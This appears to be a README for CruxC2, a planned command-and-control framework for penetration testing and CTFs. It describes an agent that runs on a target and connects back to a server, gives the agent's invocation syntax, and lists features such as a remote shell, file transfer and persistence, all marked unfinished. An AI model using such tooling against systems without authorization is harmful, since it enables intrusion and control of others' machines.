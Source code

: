 # CruxC2
>If any man will come after me, let him deny himself, and take up his **cross**, and follow me\
> -- Matthew 16:24

CruxC2 is a lightweight C2 Framework for use with Penetration Testing, CTFs, and Red Team engagements. It consists of these three components:
1. CruxAgent: Executed on the target system and connects back to the CruxServer.
2. CruxServer: The middleman for interaction between CruxClient and CruxAgent.
3. CruxClient: Allows the operator to control the CruxAgent by connecting to the CruxServer.

## CruxAgent
CruxAgent is meant to be ran on the target machine. It contains the following features:
- [ ] Interactive shell
- [ ] File upload/download
- [ ] HTTPS/TLS encrypted transport
- [ ] Establish Persistence to avoid re-running exploit
- [ ] Support for Linux and Windows Targets

The CruxAgent's execution syntax:
```
$ cruxagent -h <CRUXSERVER_IP> [-p <CRUXSERVER_PORT>]
```

## Crux

## Disclaimer
This project is for educational or red teaming use in controlled, authorized environments only. Any misuse against unauthorized systems is illegal and strictly discouraged.


